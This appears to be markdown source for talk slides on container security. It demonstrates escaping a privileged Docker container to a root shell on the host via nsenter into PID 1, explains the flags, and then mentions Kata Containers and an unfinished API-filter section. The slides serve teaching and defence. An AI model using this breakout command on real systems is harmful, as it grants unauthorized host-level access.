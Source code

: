 ## Privileged Containers

Privileged containers have access to all syscalls

If able to start containers, just leave the isolation:

```bash
docker run -it \
    --privileged \
    --pid=host \
    alpine \
	nsenter -t 1 -m -u -n -i sh
```

Parameters of `nsenter`:

- Work with namespaces (nsenter)
- Uses process tree of host (--pid=host)
- Get namespace from PID 1 (-t 1)
- Enter namespaces required for shell (-m -u -n -i)

--

## Demo: Privileged Containers

Running privileged containers:

```bash
docker run -d --rm --privileged docker:stable-dind
```

Host breakout from privileged container:

```bash
docker run --rm --privileged --pid=host -it alpine:3.8 \
    nsenter -t 1 -m -u -n -i sh
```

---

## Taming Privileges Containers

### For example

![](https://katacontainers.io/assets/img/logo_white.e69d7ea6.svg) <!-- .element: style="width: 35%" -->

Isolates containers in a lightweight VM

Configured as a container runtime (instead of `runc`)

---

## Docker Engine API Filter

XXX